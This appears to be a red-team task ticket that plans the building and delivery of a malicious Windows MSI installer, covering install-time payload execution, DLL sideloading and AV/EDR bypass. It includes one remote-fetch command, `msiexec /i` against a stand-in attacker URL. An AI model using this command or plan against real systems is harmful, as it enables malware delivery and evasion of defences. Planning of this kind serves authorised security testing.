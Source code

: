
# 📦 Research Spike: Abuse Windows Installer (MSI) for Payload Delivery

**Goal:**  
Create and deliver a malicious `.msi` Windows Installer package to execute arbitrary code. Explore both signed payload delivery and sideloading techniques.

**Why It Matters:**  
MSIs are widely used and often trusted in enterprise environments. They provide a stealthy path for execution, privilege escalation, and persistence when abused creatively.

---

### 🔍 Scope
- Test systems with Windows 10/11
- MSI packaging tools (WiX, Visual Studio, Orca)
- Optional: Signed test certs or EV signatures

---

### ✅ Tasks
- [ ] Create a minimal MSI package that:
  - Executes a command/script on install
  - Drops a payload to disk or runs in-memory
- [ ] Test execution on a target system
- [ ] Optional: Explore `msiexec.exe` LOLBin abuse
  - `msiexec /i http://attacker.com/payload.msi`
- [ ] Test sideloading:
  - DLL loaded from same directory as MSI
  - Altered path or autorun from within `InstallUtil` or `CustomAction`
- [ ] Document any AV/EDR bypass techniques

---

### 🎯 Deliverables
- Functional `.msi` file with embedded payload
- Screenshots or execution output
- Write-up of signed vs unsigned delivery
- OPSEC notes: MSI warnings, UAC prompts, logging artifacts

---

### 📚 Reference Materials
- WiX Toolset: https://wixtoolset.org/  
- Orca MSI Editor: https://learn.microsoft.com/en-us/windows/win32/msi/orca-exe  
- MITRE ATT&CK:  
  - T1059.003 – Command and Scripting Interpreter: Windows Command Shell  
  - T1218.007 – MSIExec

---

### 🏷️ Tags / Labels
`payload-delivery` `msi` `t1218.007` `signed-payloads` `installer-abuse`

---

### 📈 Effort Level
**Medium (M)** — requires Windows packaging knowledge and evasion testing.

---

### ✅ Acceptance Criteria
- [ ] MSI executes embedded payload on install
- [ ] Optional: MSI delivery method tested (e.g., via msiexec, download)
- [ ] Signed vs unsigned execution behavior documented
